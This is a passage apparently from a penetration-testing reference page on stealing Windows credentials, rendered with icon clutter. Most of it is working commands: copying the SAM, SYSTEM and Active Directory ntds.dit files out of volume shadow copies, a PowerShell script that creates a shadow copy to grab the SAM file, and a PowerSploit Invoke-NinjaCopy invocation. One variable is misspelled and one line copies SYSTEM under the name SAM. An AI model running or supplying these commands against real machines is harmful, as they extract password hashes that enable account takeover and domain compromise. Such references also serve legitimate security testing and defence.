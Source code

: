 47copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy8\windows\system32\config\SYSTEM C:\Extracted\SAM

48#Copy SYSTEM

49copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy8\windows\system32\config\SYSTEM C:\Extracted\SYSTEM

50#Copy ntds.dit

51copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy8\windows\ntds\ntds.dit C:\Extracted\ntds.dit

52​
53# You can also create a symlink to the shadow copy and access it
54mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\

But you can do the same from **Powershell**. This is an example of** how to copy the SAM file **(the hard drive used is "C:" and its saved to C:\users\Public) but you can use this for copying any protected file:

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2334'%3e%3cg data-evernote-id='2335' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='2336' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='2337' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

55$service=(Get-Service -name VSS)
56if($service.Status -ne "Running"){$notrunning=1;$service.Start()}
57$id=(gwmi -list win32_shadowcopy).Create("C:\","ClientAccessible").ShadowID
58$volume=(gwmi win32_shadowcopy -filter "ID='$id'")

59cmd /c copy "$($volume.DeviceObject)\windows\system32\config\sam" C:\Users\Public

60$voume.Delete();if($notrunning -eq 1){$service.Stop()}

Code from the book: https://0xword.com/es/libros/99-hacking-windows-ataques-a-sistemas-y-redes-microsoft.html​

##

Invoke-NinjaCopy[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2442'%3e%3cg data-evernote-id='2443' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='2444' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='2445' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://book.hacktricks.xyz/windows/stealing-credentials#invoke-ninjacopy)

Finally, you could also use the [**PS script Invoke-NinjaCopy**](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1) to make a copy of SAM, SYSTEM and ntds.dit.

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2459'%3e%3cg data-evernote-id='2460' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='2461' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='2462' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

Invoke-NinjaCopy.ps1 -Path "C:\Windows\System32\config\sam" -LocalDestination "c:\copy_of_local_sam"

#

**Active Directory Credentials - NTDS.dit**[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2479'%3e%3cg data-evernote-id='2480' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='2481' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='2482' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://book.hacktricks.xyz/windows/stealing-credentials#active-directory-credentials-ntds-dit)
